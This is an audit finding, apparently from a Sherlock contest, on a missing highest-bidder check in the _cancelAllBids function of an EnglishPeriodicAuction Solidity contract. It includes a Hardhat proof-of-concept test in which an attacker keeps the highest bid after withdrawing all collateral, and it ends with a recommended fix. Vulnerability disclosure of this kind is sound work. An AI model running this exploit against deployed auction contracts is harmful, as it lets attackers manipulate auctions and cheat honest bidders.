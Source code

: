 Sharp Shadow Swan

high

# Lack of checking highest bidder in _cancelAllBids lead to collateral-free highest bid

## Summary
`_cancelAllBids` call doesn't check the canceled bid is not the highest bid on the current auction round, which will create the chance for malicious users to manipulate the auction and stop the auction from normally running

## Vulnerability Detail
In `_cancelBid`, a check requires that the bid can't be cancelled if it's highest bidder. 
https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L393-L396
```solidity
        require(
            bidder != l.highestBids[tokenId][round].bidder,
            'EnglishPeriodicAuction: Cannot cancel bid if highest bidder'
        );
```
However, for `_cancelAllBids` call, there is no such check and require statement to ensure that the canceled bid is not the highest bid on the current auction round. 
https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L413-L434
```solidity
/**
     * @notice Cancel bids for all rounds
     */
    function _cancelAllBids(uint256 tokenId, address bidder) internal {
        EnglishPeriodicAuctionStorage.Layout
            storage l = EnglishPeriodicAuctionStorage.layout();

        uint256 currentAuctionRound = l.currentAuctionRound[tokenId];

        for (uint256 i = 0; i <= currentAuctionRound; i++) {
            Bid storage bid = l.bids[tokenId][i][bidder];
            //@audit: no checker for highest bidder
            if (bid.collateralAmount > 0) {
                // Make collateral available to withdraw
                l.availableCollateral[bidder] += bid.collateralAmount;

                // Reset collateral and bid
                bid.collateralAmount = 0;
                bid.bidAmount = 0;
            }
        }
    }
```
## Impact
malicious user could create a bid with a large amount of ETH (could use flashLoan) to become the highest bid, and then after a short time (even in a single block),  call `cancelAllBidsAndWithdrawCollateral` to cancel this bid (internally called `_cancelAllBids`) and withdraw collateral. Since the lack of check, this call will success and leave the `highestBids` of this round unchanged, highest bidder still be the malicious user and his bidAmount. 

By this operation, malicious user can become highest bidder with no collateral placed. Also, it's hard for normal user to become the highest bidder since malicious user's bid amount could be very large, for the checker inside `_placeBid`
https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L305-L313
```solidity
        // Check if highest bid
        if (l.highestBids[tokenId][currentAuctionRound].bidAmount > 0) {
            require(
                bidAmount >=
                    l.highestBids[tokenId][currentAuctionRound].bidAmount +
                        l.minBidIncrement,
                'EnglishPeriodicAuction: Bid amount must be greater than highest outstanding bid'
            );
        }
```
See the POC code using hardhat test
```typescript
it('poc', async function () {
      const instance = await getInstance({
        auctionLengthSeconds: 300,
        initialPeriodStartTime: (await time.latest()) - 200,
        licensePeriod: 1000,
      });
      const b1BalanceBefore = await ethers.provider.getBalance(bidder1.address);

      // @audit: bid a very large amount of ETH
      const bidAmt = ethers.utils.parseEther('9000');
      const feeAmt = await instance.calculateFeeFromBid(bidAmt);
      const collateralAmt = feeAmt.add(bidAmt);

      // @audit: bidder1 place bid, guarrantee that highestBid can be accuqired by him
      const r1 = await instance
        .connect(bidder1)
        .placeBid(0, bidAmt, { value: collateralAmt});
      let receipt1 = await r1.wait();
      let gas1 = receipt1.gasUsed.mul(r1.gasPrice);

      // @audit: bidder1 cancelAllBids, this could be done very quickly (even in a single block?)
      const r2 = await instance
        .connect(bidder1)
        .cancelAllBidsAndWithdrawCollateral(0);
      let receipt2 = await r2.wait();
      let gas2 = receipt2.gasUsed.mul(r2.gasPrice);

      // @audit: bidder1 still be the highest bidder, with very large bid amount
      const highestBid = await instance['highestBid(uint256,uint256)'](0, 0);
      expect(highestBid.bidder).to.be.equal(bidder1.address);
      expect(highestBid.bidAmount).to.be.equal(bidAmt);
      expect(highestBid.feeAmount).to.be.equal(feeAmt);
      expect(highestBid.collateralAmount).to.be.equal(collateralAmt);
      
      // @audit: bidder1 can acquire highest bid without any collateral
      const b1BalanceAfter = await ethers.provider.getBalance(bidder1.address);
      expect(b1BalanceAfter.add(gas1).add(gas2)).to.be.equal(b1BalanceBefore);

    });
```

## Code Snippet
https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L413-L434
https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/facets/EnglishPeriodicAuctionFacet.sol#L184-L190
https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L305-L313
## Tool used
Manual Review

## Recommendation
Add necessary check to make sure that `_cancelAllBids` call won't cancel the highest bid